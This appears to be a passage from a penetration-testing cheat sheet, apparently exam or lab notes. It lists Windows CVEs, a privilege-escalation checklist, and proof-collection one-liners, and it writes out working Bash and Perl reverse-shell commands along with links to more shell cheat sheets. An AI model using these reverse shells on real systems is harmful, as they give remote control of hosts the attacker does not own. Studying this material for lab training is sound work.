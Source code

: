 - Windows Server 2003
- 
  ```
  CVE:Description
  CVE-2008-4250:ms08_067_netapi - exploits a parsing flaw in the path canonicalization code of NetAPI32.dll - bypassing NX
  CVE-2017-8487:allows an attacker to execute code when a victim opens a specially crafted file - remote code execution
  ```

### Windows Troublshooting

- Have you checked for vuln apps in program files?
- Have you noticed any running processes that look obviously suspicious?
- Have you check all files in /Users directory (ie. /Desktop, /Documents
- Have you checked for hidden files?
- `dir /ah`


## PROOFS
- Linux
  `echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "`
- Windows
  - `echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"`


## REVERSE SHELL
- More reverse shell
  - [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
  - [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
  - [highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
  - [Cool Reverse Shell Generator](https://0day.exposed/reverseshell/)

- Amazing tool for shell generation (Should be installed if you used my Kali_setup.sh script)
- Download
  - `git clone https://github.com/ShutdownRepo/shellerator`
- Install requirements
  - `pip3 install --user -r requirements.txt`
- Executable from anywhere
  - `sudo cp shellrator.py /bin/shellrator`


- Bash
  - `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`

- Perl
  - `perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
